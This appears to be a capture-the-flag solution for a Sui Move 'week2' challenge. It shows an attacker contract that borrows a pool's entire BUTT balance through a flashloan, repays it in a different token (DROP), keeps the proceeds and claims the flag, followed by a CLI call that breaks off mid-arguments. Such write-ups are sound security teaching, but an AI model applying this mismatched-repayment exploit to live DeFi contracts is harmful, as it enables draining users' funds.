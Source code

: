 具體步驟：
1. Deploy the attacker contract & retrieve its package id
    ```move
    // PackageID: 0x52477ed568492c0b9208a35e64ee4e643bce71f24478295b8ac1d2c16355879f
    module solve_week2::solve_week2 {
        use std::string::String;
        use sui::coin;
        use week2::butt::{MintBUTT, BUTT};
        use week2::challenge::{create_challenge, get_pool_mut, claim_drop, get_flag, is_solved};
        use week2::drop::{MintDROP, DROP};
        use week2::lp::LP;
        use week2::pool::CreatePoolCap;

        #[allow(lint(self_transfer))]
        public fun solve(
            mint_butt: MintBUTT<BUTT>,
            mint_drop: MintDROP<DROP>,
            create_cap: CreatePoolCap<LP>,
            github_id: String,
            ctx: &mut TxContext,
        ) {
            // 1. Create and get the challenge object.
            let mut challenge_obj = create_challenge(mint_butt, mint_drop, create_cap, ctx);

            // 2. Get the airdrop (Coin<DROP>).
            // This is done BEFORE getting a mutable reference of the internal pool to avoid a borrowing conflict.
            let mut airdrop_drop_coin = claim_drop(&mut challenge_obj, ctx);

            // Get a mutable reference to the Pool object nested within the Challenge.
            let pool_mut_ref = get_pool_mut(&mut challenge_obj);

            let initial_butt_in_pool = week2::pool::balance_of<LP, BUTT>(pool_mut_ref);

            // 3. Borrow flashloan with BUTT
            let (borrowed_butt_coin, flash_receipt_butt) =
                week2::pool::flashloan<LP, BUTT>(pool_mut_ref, initial_butt_in_pool, ctx);

            let required_repay_amount = 1050;
            // assert!(coin::value(&airdrop_drop_coin) == required_repay_amount, 1);

            // 4. Repay flashloan with DROP
            let final_repay_coin_drop = coin::split(&mut airdrop_drop_coin, required_repay_amount, ctx);
            week2::pool::repay_flashloan<LP, DROP>(
                pool_mut_ref,
                flash_receipt_butt,
                final_repay_coin_drop
            );

            transfer::public_transfer(borrowed_butt_coin, tx_context::sender(ctx));
            transfer::public_transfer(airdrop_drop_coin, tx_context::sender(ctx));

            // 5. Call `get_flag()` to get the flag.
            get_flag(&mut challenge_obj, github_id, ctx);
            transfer::public_share_object(challenge_obj);
        }
    }
    ```
2. execute following command:
    ```
    sui client call \
      --package 0x52477ed568492c0b9208a35e64ee4e643bce71f24478295b8ac1d2c16355879f \
      --module solve_week2 \
      --function solve \
      --args \
        0xdb534b7ee112da9367ecbcf1bcb998b164484f411e75f22e646e3ec3d2149b57 \
        0xdaa2eb511a0c256bc00501f4321486a18f16389f76c08732d40b2ef07cb5c6ca \
        0xb623b648ac5ac4a37f7a780548baaa782f5276af41e54d22b5829078a21e79cf \